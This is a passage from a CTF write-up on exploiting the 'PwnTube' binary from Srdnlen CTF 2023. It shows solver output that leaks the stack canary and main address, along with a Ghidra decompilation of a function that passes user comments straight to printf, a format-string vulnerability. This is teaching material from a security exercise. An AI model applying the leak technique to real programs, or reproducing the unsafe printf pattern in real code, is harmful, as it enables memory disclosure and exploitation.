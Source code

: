 In my local environment, I could be successful to get the flag after running it several times.

```console
$ echo dummy > flag.txt
$ python3 solver.py
[+] Starting local process '/root/ctf/Srdnlen_CTF_2023/binary/PwnTube/PwnTube': pid 265893


Processing payment...
Payment failed, you're broke
[*] Got EOF while reading in interactive

[*] Process '/root/ctf/Srdnlen_CTF_2023/binary/PwnTube/PwnTube' stopped with exit code -11 (SIGSEGV) (pid 265893)

$ python3 solver.py
[+] Starting local process '/root/ctf/Srdnlen_CTF_2023/binary/PwnTube/PwnTube': pid 266023
[+] hex(leak_canary)='0xa807765c15cb1b00'
[+] hex(leak_main)='0x55f65199376b'
[*] Loaded 9 cached gadgets for 'PwnTube'
[*] Switching to interactive mode

Processing payment...
Payment failed, you're broke


You did not give me up :)
You earned this:

dummy
[*] Got EOF while reading in interactive

[*] Process '/root/ctf/Srdnlen_CTF_2023/binary/PwnTube/PwnTube' stopped with exit code -11 (SIGSEGV) (pid 266023)
```

### Step 1: Leak canary and main address

Decompiled showComments function with Ghidra:

```c
void showComments(long param_1,int param_2)

{
  int local_c;

  clearScreen();
  printLogo();
  puts(&DAT_001035f0);
  for (local_c = 0; local_c < param_2; local_c = local_c + 1) {
    printf((char *)(param_1 + (long)local_c * 0x1e));
  }
  return;
}
```
